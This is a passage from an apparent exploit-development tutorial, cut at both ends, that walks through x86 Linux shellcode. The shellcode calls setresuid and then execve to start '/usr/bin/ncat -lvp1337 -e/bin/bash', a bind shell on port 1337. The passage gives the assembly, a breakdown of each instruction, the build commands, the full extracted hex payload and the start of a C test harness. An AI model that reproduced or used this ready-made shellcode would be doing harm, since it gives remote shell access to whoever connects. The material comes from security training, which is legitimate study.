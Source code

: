 ```c
  mov ebx, esi            ;Store address of "/usr/bin/ncat"
  lea ecx, [esi+35]       ;Load address of ptr to argv[] array
  lea edx, [esi+47]       ;envp[] NULL
  int 0x80                ;Syscall execute

  todo:
  call shellcode
  db "/usr/bin/ncat#-lvp1337#-e/bin/bash#AAAABBBBCCCCDDDD"
  ;   012345678901234567890123456789012345678901234567890
  ;We commented down of it number to have a focus on the command.
```
The shellcode performs a series of instructions to achieve a specific purpose, likely related to privilege escalation or executing arbitrary code. Here's a breakdown of the instructions:
- `xor` instructions are used to zero out registers.
- `cdq` extends the sign bit of `eax` into `edx`, effectively zeroing out `edx`.
- `mov BYTE al, 0xa4` sets al to `0xa4`, which corresponds to the `setresuid` system call number.
- `int 0x80` triggers a software interrupt, invoking the system call.
- `pop esi` retrieves the value from the top of the stack and stores it in esi. This likely holds the address of the string defined after the `todo` label.
- `mov [esi+35]`, `esi` stores the address of `/usr/bin/ncat` in the string at position `AAAA`.
- `lea` instructions are used to calculate the addresses of specific portions of the string and store them in registers.
- `mov al, 11` sets `al` to `11`, which corresponds to the `execve` system call number.
- `mov ebx, esi` stores the address of `/usr/bin/ncat` in ebx.
- `lea ecx, [esi+35]` loads the address of the pointer to the `argv[]` array into `ecx`.
- `lea edx, [esi+47]` loads the address of the `envp[]` array (NULL) into `edx`.
- `int 0x80` triggers a software interrupt, invoking the system call.
- `todo` is a label that marks the start of the todo section.
- `call shellcode` calls the shellcode procedure, executing the instructions defined earlier.    
- The `db` directive is used to define a string containing the command `/usr/bin/ncat -lvp1337 -e/bin/bash`.

Now all we have to do is compile the program and extract that shellcode! Look Part 1 to see how it is compiled!
```sh
nasm -f elf32 shellcode.asm -o shellcode.o
ld -m elf_i386 -s -o shellcode shellcode.o
```
Now we use Sh3llshock.py to extract the shellcode! We obtain:
```sh
t3jv1l@t3jv1l:~/Desktop/OSCE/Shellcode/test$ Sh3llshock.py -f "shellcode" -s
  [+] Shellcode =
  \xeb\x35\x31\xc0\x31\xdb\x31\xc9
  \x99\xb0\xa4\xcd\x80\x5e\x31\xc0
  \x88\x46\x0d\x88\x46\x16\x88\x46
  \x22\x89\x76\x23\x8d\x5e\x0e\x89
  \x5e\x27\x8d\x5e\x17\x89\x5e\x2b
  \x89\x46\x2f\xb0\x0b\x89\xf3\x8d
  \x4e\x23\x8d\x56\x2f\xcd\x80\xe8
  \xc6\xff\xff\xff\x2f\x75\x73\x72
  \x2f\x62\x69\x6e\x2f\x6e\x63\x61
  \x74\x23\x2d\x6c\x76\x70\x31\x33
  \x33\x37\x23\x2d\x65\x2f\x62\x69
  \x6e\x2f\x62\x61\x73\x68\x23\x41
  \x41\x41\x41\x42\x42\x42\x42\x43
  \x43\x43\x43\x44\x44\x44\x44
  [+] We have a shellcode....
```
Now it's time to test this shellcode with C program!
```c
#include <'stdio.h'>    //IO header
#include <'sys/mman.h'> //MMAN sys func
#include <'string.h'>   //Functions on favor of strings
#include <'stdlib.h'>   //Define Var types
```